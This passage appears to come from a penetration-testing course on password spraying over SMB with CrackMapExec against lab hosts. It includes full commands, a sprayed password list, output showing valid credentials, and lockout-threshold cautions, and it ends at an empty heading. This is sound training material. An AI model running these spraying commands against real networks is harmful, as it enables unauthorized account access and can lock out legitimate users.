 ```shell-session
$ cat passfound.txt 

Inlanefreight01!
Inlanefreight02!
```

```shell-session
$ crackmapexec smb 10.129.203.121 -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\carlos:Inlanefreight02!
```

## Testing Local Accounts

In case we would like to test a local account instead of a domain account, we can use the `--local-auth` option in CrackMapExec:

### **Password Spraying Local Accounts**

```shell-session
$ crackmapexec smb 192.168.133.157 -u Administrator -p Password@123 --local-auth

SMB         192.168.133.157 445    WIN10             [*] Windows 10.0 Build 22000 x64 (name:WIN10) (domain:WIN10) (signing:False) (SMBv1:True)
SMB         192.168.133.157 445    WIN10             [+] WIN10\Administrator:Password@123
```

{% hint style="info" %}
**Note:** Domain Controllers don't have a local account database, so we can't use the flag `--local-auth` against a Domain Controller.
{% endhint %}

***

## Account Lockout

Be careful when performing Password Spraying. We need to ensure the value: `Account Lockout Threshold` is set to None. If there is a value (usually 5), be careful with the number of attempts we try on each account and observe the window in which the counter is reset to 0 (typically 30 minutes). Otherwise, there is a risk that we lock all accounts in the domain for 30 minutes or more (check the Locked Account Duration for how long this is). Occasionally a domain password policy will be set to require an administrator to manually unlock accounts which could create an even bigger issue if we lock out one or more accounts with careless Password Spraying. If you already have a user account, you can query its `Bad-Pwd-Count` attribute, which measures the number of times the user tried to log on to the account using an incorrect password.

### **Query Bad Password Count**
